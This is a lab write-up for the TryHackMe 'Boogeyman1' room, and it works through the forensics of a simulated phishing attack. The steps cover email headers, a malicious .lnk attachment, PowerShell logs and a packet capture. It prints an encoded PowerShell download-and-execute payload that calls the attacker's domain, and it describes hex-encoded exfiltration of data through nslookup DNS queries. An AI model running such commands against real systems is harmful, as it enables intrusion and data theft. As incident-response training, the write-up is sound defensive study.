#  Boogeyman1 Writeup
## Lab Link [Boogeyman1](https://tryhackme.com/room/boogeyman1)


## Task 2 [Email Analysis] Look at that headers!
```
The Boogeyman is here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.

You are tasked to analyse and assess the impact of the compromise.
```
### Q1: What is the email address used to send the phishing email?
First, I opened the shell and changed to the directory that contains the artifacts.
then, list all files you will find .eml file



after that, I print the content of dump.eml using `cat` command file to find the sender email
and search for the malicious mail

this is a header of the malicious email 




Answer: `agriffin@bpakcaging.xyz`

### Q2: What is the email address of the victim?

you can find the answer from the photo above

Answer: `julianne.westcott@hotmail.com`


### Q3: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?



Answer: `elasticemail`


### Q4: What is the name of the file inside the encrypted attachment?

you can open the dump.eml form its location as GUI and you will find the some answeres above, but now we need to analyze .zip file



downlaod  `Invoice.zip` then unzip it using password in email 



after unzip the file, we found .lnk file

Answer: `Invoice_20230103.lnk `


### Q5: What is the password of the encrypted attachment?

the same is used to unzip the file 


Answer: `Invoice2023!`


### Q6: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

use `lnkparse` to analyze .lnk file 



Answer: `aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`


## Task 3 : [Endpoint Security] Are you sure that’s an invoice?
```
Based on the initial findings, we discovered how the malicious attachment compromised Julianne's workstation:

A PowerShell command was executed.
Decoding the payload reveals the starting point of endpoint activities. 
```
### Q1: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)
by print all content of .json file, you can see the key "scriptblocktext" which contains scripts and executed commands and  might be contains domains.



`cat powershell.json |jq '{ScriptBlockText}'`



Answer: `cdn.bpakcaging.xyz,files.bpakcaging.xyz`


### Q2: What is the name of the enumeration tool downloaded by the attacker?

using the same command above 



the .ps1 script has been downloaded from github repo 

Answer: `seatbelt`


### Q3: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.
First, I searched for sq3.exe using grep and found this path, but it still needed about two more directories to complete it.




There were a lot of these commands `Set-StrictMode`, so I used grep -v to reduce the output.




`cat powershell.json |jq '{ScriptBlockText}' | grep -v "Set-StrictMode"`
then, I found the attacker moved between these directories 



Answer: `C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite`


### Q4: What is the software that uses the file in Q3?
the answer in the previous question


Answer: `Microsoft Sticky Notes`


### Q5: What is the name of the exfiltrated file?
using the same commands you will oserve that
The PowerShell script was used to exfiltrate the protected_data.kdbx file to a remote server.



Answer: `protected_data.kdbx`


### Q6: What type of file uses the .kdbx file extension?

google it 



Answer: `KeePass`


### Q7: What is the encoding used during the exfiltration attempt of the sensitive file?



Answer: `hex`


What is the tool used for exfiltration?
from the same command above 


Answer: `nslookup`


## Task 4 : [Network Traffic Analysis] They got us. Call the bank immediately!
```
Based on the PowerShell logs investigation, we have seen the full impact of the attack:

The threat actor was able to read and exfiltrate two potentially sensitive files.
The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.
Investigation Guide

Finally, we can complete the investigation by understanding the network traffic caused by the attack:

Utilise the domains and ports discovered from the previous task.
All commands executed by the attacker and all command outputs were logged and stored in the packet capture.
Follow the streams of the notable commands discovered from PowerShell logs.
Based on the PowerShell logs, we can retrieve the contents of the exfiltrated data by understanding how it was encoded and extracted.
```

### Q1: What software is used by the attacker to host its presumed file/payload server?
open .pcap file using wireshark
search using C2 ip in the previous question 
`ip.addr == 167.71.211.113 `
then follow < http stream 




Answer: `Python`


### Q2: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

the answer is in the previous question   

Answer: `POST`


### Q3: What is the protocol used during the exfiltration activity?
the last question from task 3 is nslookup

Answer: `dns`

### Q4: What is the password of the exfiltrated file?

search using POST as http request and frame contains password but I couldn't find the answer 


so the password might be encoded 

so, I turned to filter only by POST method 
I found answer in this frame 

the command is encoded 
use cyberchef to decode 



Answer: `%p9^3!lL^Mz47E2GaT^y`

### Q5: What is the credit card number stored inside the exfiltrated file?



use this command to extract the exfilterated data 
`tshark -r capture.pcapng -Y 'dns' -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" |uniq | tr -d '\n' > out.txt`
then decode data to save it as exfilterated file extension
`cat out.txt | xxd -r -p > protected.kdbxD`



open the file using keepass2 and user the pass above 






Answer: `4024007128269551`


# The End I hope you find it useful.


